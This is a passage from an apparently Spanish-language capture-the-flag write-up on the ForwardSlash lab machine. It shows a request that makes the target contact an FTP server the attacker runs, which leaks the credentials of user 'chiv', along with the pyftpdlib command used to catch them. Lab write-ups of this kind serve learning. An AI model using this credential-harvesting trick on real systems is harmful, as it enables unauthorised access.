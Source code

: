 ![](/assets/images/ForwardSlash/1__NbFndXhXiNePQTJezglS8g.png)


Otro método, del cual las únicas pistas que teníamos era la del comienzo, y el comentario de la página en “dev”, “Fix FTP Login”, es que si enviamos el siguiente valor en el parámetro “url”, `http://backup.forwardslash.htb/dev/index.php?xml=ftp://<nuestra IP>"` y tenemos un servidor ftp escuchando, la máquina nos enviaría las credenciales de chiv, para esto iniciamos un servidor ftp con python: `python -m pyftpdlib -p 21`, enviamos la petición con burp:

![](/assets/images/ForwardSlash/1__9NoonDX7WlO8Uv3LLDJFhg.png)


Vemos que al final de la respuesta nos devuelve nuestra IP.

![](/assets/images/ForwardSlash/1__wBQZCDXOBss7CC__9v2H4Qw.png)


Mientras que en nuestro servidor ftp encontramos el intento fallido de un usuario llamado “chiv”.

![](/assets/images/ForwardSlash/1__faE4DMtdeI1tGmnphgW5qw.png)
